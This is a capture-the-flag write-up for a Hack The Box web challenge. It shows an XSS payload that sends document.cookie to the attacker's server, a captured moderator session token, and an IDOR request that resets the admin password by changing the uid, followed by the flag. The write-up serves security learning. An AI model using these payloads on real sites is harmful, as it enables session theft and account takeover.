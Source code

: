 # Kryptos Support (Web)

![Kryptos Ticket Submission](images/kryptos_support1.png)

## Initial Recon

Examing source code and looking at the HTTP requests in BurpSuite, found two endpoints:
- `/api/tickets`
- `/api/login`

GoBuster yielded no usable results.

## XSS Injection

Started an HTTP server on my machine and started experimenting with different XSS payloads.

`python3 -m http.server 80`
  
Found a winner!

`<img src=x onerror="location.href='http://your-web-server/?cookie=' + document.cookie">`

Checking our python3 web server, we can see we've now got a session cookie!

`/?cookie=session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI1MzQ4ODV9.JO12yEA44QxXgfUmL3n6Sm4Et2AJc5rkvXkvSMdmFOI`

Manually put the cookie into your browser, and BOOM, we're logged in as `moderator` and can see the list of support tickets at `/tickets`.

![Kryptos Ticket List](images/kryptos_support2.png)

## Further Exploitation

Once logged in as `moderator`, we can see a link for a "Settings" page in the top left. This page allows you to change your password (without knowing the current password), and uses the endpoint: `/api/users/update`

![Kryptos Password Change](images/kryptos_support3.png)

Capturing a password change for our current session, Burp shows us the following information included in the POST request:

```json
{
    "password":"test",
    "uid":"100"
}
```

Guessing the admin account may have a uid of 1, we use Burp repeater to send the following POST:

```json
{
    "password":"a",
    "uid":"1"
}
```

Now, delete your cookies, return to the `/login` page, and login as `admin:a`.

There's your flag! `HTB{x55_4nd_id0rs_ar3_fun!!}`
